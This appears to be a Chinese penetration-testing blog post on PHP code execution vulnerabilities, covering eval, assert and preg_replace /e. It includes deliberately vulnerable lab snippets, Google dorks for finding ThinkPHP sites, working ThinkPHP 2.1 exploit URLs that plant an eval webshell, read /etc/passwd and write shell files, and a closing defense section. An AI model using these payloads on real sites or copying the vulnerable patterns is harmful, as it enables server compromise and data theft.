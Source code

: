+++
date = "2016-07-25T22:32:51+08:00"
description = ""
draft = false
tags = ["rce"]
title = "代码执行漏洞(一)"
topics = ["Pentest"]

+++
<!--
 * @Author: reber
 * @Mail: reber0ask@qq.com
 * @Date: 2019-04-10 10:45:00
 * @LastEditTime: 2019-04-10 10:45:00
 -->

### 0x00 代码执行
当应用在调用一些能将字符转化为代码的函数(如PHP中的eval)时，没有考虑用户是否能控制这个字符串，这就会造成代码执行漏洞。

### 0x01 相关函数
```
PHP：eval assert
Python：exec
asp：<%=CreateObject(“wscript.shell”).exec(“cmd.exe /c ipconfig”).StdOut.ReadAll()%>
Java：没有类似函数，但采用的反射机制和各种基于反射机制的表达式引擎(OGNL、SpEL、MVEL等)有类似功能
```

### 0x02 phpcms中的string2array函数
这个函数可以将phpcms的数据库settings的字符串形式的数组内容转换为真实的数组
```
array(  //这个是字符串形式的数组，它并不是数组，而是字符串
    'upload_maxsize' => '2048',
    'upload_allowext' => 'jpg|jpeg|gif|bmp|png|doc|docx|xls|xlsx|ppt|pptx|pdf|txt|rar|zip|swf', 
    'watermark_enable' => '1',
    'watermark_minwidth' => '300',
    'watermark_minheight' => '300',
    'watermark_img' => '/statics/img/water/mark.png',
    'watermark_pct' => '85',
    'watermark_quality' => '80',
    'watermark_pos' => '9',
)
```
```php
function string2array($data) {
    //这个函数可以将字符串$data转化为数组
    if($data == '') 
        return array(); 
    @eval("\$array = $data;"); 
        return $array;
}
```

### 0x03 漏洞危害
* 执行代码
* 让网站写shell
* 甚至控制服务器

### 0x04 漏洞分类(也是利用点)
```
执行代码的函数：eval、assert
callback函数：preg_replace + /e模式
反序列化：unserialize()(反序列化函数)
```

### 0x05 漏洞挖掘
```
框架找漏洞，如ThinkPHP：
  inurl:index.php intext:ThinkPHP 2.1 { Fast & Simple OOP PHP Framework }
框架的URL格式如下：
  Site:Port/Module name/Method name/Property name/Preperty value
  Site:Port/index.php?m=Module_name&f=Method_name&v=Preperty_value
  
  www.xx.com:88/News/show/id/328
  www.yy.com:99/index.php?m=News&f=detail&item=23
  www.zz.com/global_cms_contentview_id_2435
```

### 0x06 搭建环境实验
* 示例一
```php
<?php
    $data = $_GET['data'];
    eval("\$ret = $data;");
    echo $ret;
?>
```
![代码执行漏洞使用eval函数1](/img/post/code_execution_eval1.png)

* 示例二
```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower('$data');");
    echo $ret;
?>
```
![代码执行漏洞使用eval函数2](/img/post/code_execution_eval2.png)

* 示例三
```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower(\"$data\");");
    echo $ret;
?>
```
![代码执行漏洞使用eval函数3](/img/post/code_execution_eval3.png)
![代码执行漏洞使用eval函数4](/img/post/code_execution_eval4.png)

* 示例四
```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower(\"$data\");");
    echo $ret;
?>
```
![代码执行漏洞使用eval函数5](/img/post/code_execution_eval5.png)
![代码执行漏洞使用eval函数6](/img/post/code_execution_eval6.png)

* 示例五  
mixed preg_replace ( mixed pattern, mixed replacement, mixed subject [, int limit])  
/e修正符使preg_replace()将replacement参数当作PHP 代码(在适当的逆向引用替换完之后)
```php
<?php
    $data = $_GET['data'];
    $ret = preg_replace('/<data>(.*?)<\/data>/e','$ret = "\\1"',$data);
    echo $ret;
?>
```
![代码执行漏洞使用preg_replace函数](/img/post/code_execution_preg_replace.png)

### 0x07 具体操作
```
# 一般找CMS相应版本漏洞，如ThinkPHP2.1
* 一句话
    http://www.xxx.com/News/detail/id/{${@eval($_POST[aa])}}
* 得到当前路径
    http://www.xxx.com/News/detail/id/{${print(getcwd()))}}
* 读文件
    http://www.xxx.com/News/detail/id/{${exit(var_dump(file_get_contents($_POST['f'])))}}
    POST的数据为：f=/etc/passwd
* 写shell
    http://www.xxx.com/News/detail/id/{${exit(var_dump(file_put_contents($_POST['f'],$_POST[d])))}}
    POST的数据为：f=1.php&d=<?php @eval($_POST['aa'])?>
```

### 0x08 漏洞防御
* 使用json保存数组，当读取时就不需要使用eval了
* 对于必须使用eval的地方，一定严格处理用户数据
* 字符串使用单引号包括可控代码，插入前使用addslashes转义
* 放弃使用preg_replace的e修饰符，使用preg_replace_callback()替换
* 若必须使用preg_replace的e修饰符，则必用单引号包裹正则匹配出的对象

#### 下一篇：[代码执行漏洞(二)](/posts/code-execution-vulnerabilities-2/)
